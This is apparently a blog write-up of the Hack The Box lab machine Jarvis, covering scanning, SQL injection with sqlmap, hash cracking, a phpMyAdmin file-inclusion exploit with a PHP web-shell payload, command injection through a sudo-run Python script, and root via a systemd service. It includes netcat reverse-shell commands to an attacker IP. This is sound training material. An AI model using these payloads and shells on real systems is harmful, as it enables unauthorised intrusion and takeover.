 ```yaml
---
layout: PostSimple
date: 2020-04-04
title:     "Hack The Box - Jarvis"
tags: ['linux','medium','sudo','setuid','sqli','phpmyadmin','python']
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/1.png)

We are going to pwn Jarvis from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/194](https://www.hackthebox.eu/home/machines/profile/194)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.13 (94%), Linux 3.16 (94%), Linux 3.18 (94%), Linux 4.2 (94%), Linux 3.12 (93%), Linux 3.8 - 3.11 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP:

It looks like a normal webpage. So better we try bruteforcing the directories.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/2.png)

Got some details on the bottom of the page.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/3.png)

## Gobuster Result:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.143
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/03 19:14:12 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
===============================================================
2020/04/03 19:15:59 Finished
===============================================================
```

``/phpmyadmin``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/4.png)
Tried with default credentials ``Username: root Password: [null]`` but failed so better we try to enumerate more.

In the webpage clicking on ``Rooms`` it redirects to ``rooms-suites.php`` and by clicking any of those rooms it redirects to ``/room.php`` with a parameter called cod that holds the room number.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/5.png)

So I started SQLMAP with the url. There is some kind of filter which Ban us for 90 seconds.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/6.png)

>sqlmap -u http://supersecurehotel.htb/room.php?cod=1 --level 5 --risk 3

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/7.png)
And it give me some payload. It Looks like SQL Injection using UNION is there.

### What is SQL Injection using UNION?
>When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database.

> sqlmap -u http://supersecurehotel.htb/room.php?cod=1 --level 5 --risk 3 --password

Got ``DBadmin`` hash.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/9.png)

I cracked that using [CrackStation](https://crackstation.net/)[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/10.png)

``/phpmyadmin``[br/](br/)

``DBadmin:imissyou``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/11.png)

Found Phpmyadmin's version so search for any exploit available.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/12.png)

>[https://www.exploit-db.com/exploits/44928](https://www.exploit-db.com/exploits/44928)

According to the exploit we need to inject the payload in SQL Query.[br/](br/)
```select '[?php system($_GET["cmd"]);?](?php system($_GET["cmd"]);?)'```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/13.png)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/14.png)

Now we need to get the Session ID of phpMyAdmin.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/15.png)

``http://supersecurehotel.htb/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_8271hfci8stuji9h69a2huedmt4dt75e&cmd=ls``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/16.png)

Its working lets try to get reverse shell!

## Shell as www-data

``nc -e /bin/sh 10.10.14.19 1234``

I got the shell as ``www-data``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/17.png)


I started with ``sudo -l`` and looks like we can run ``simpler.py`` as pepper without password.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/18.png)

Lets see how ``simpler.py`` works[br/](br/)
```
python simpler.py
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************


********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    
```
While checking the python code, I found a Interesting thing:
```
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

It takes the input and ping the command we send and it also forbidden ``['&', ';', '-', '`', '||', '|']`` these symbols to prevent us to do some other commands.But they didn't filtered ``$``, we can use this by ``$(command)``. I did ``$(bash)`` and got the user ``pepper``.

```
$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: 127.0.0.1 $(bash)
127.0.0.1 $(bash)
pepper@jarvis:/var/www/Admin-Utilities$ whoami
whoami
pepper@jarvis:/var/www/Admin-Utilities$
pepper
```

## Privilege Escalation

Started my enumeration script and found there is a SUID binary.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/19.png)

I checked [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/), According to that we need to create a service that executes a file of our choice when it enables.
I created a service called ``test.service`` in my machine and uploaded that to the box.

``test.service``
```
[Service]
Type=oneshot
ExecStart=/bin/sh -c "nc -e /bin/sh 10.10.14.19 5555"
[Install]
WantedBy=multi-user.target
```

Uploaded the script to the box and gave executable permission. Now we need to link the service first and then enable the service which executes it.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/20.png)

Started my listener[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jarvis/21.png) [br/](br/)
I'm Root

